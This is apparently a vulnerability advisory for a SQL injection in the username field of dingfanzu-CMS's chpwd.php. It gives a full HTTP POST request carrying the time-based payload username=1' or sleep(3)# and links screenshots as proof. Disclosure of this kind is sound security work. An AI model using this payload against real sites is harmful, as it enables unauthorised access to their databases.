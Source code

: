 # dingfanzu-CMS chpwd.php username SQL-inject

**Exploit Title: dingfanzu-CMS chpwd.php username SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "chpwd.php" username module, resulting in the generation of SQL injection.

    Payload used:

```
POST /ajax/chpwd.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; HMACCOUNT=972263C9F6177EA8; PHPSESSID=6tpdrcitemfg08ghc7vtcjvuo7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=1' or sleep(3)#&password=
```

## Proof of Concept

![image](https://github.com/user-attachments/assets/268e70fa-4a33-45a9-bbf0-c12b8ebf1755)

![image](https://github.com/user-attachments/assets/d9d46261-a12c-4444-9301-1bbf49cc6b46)

![](D:\software_data\markdown_image\2024-08-22-14-08-54-image.png)
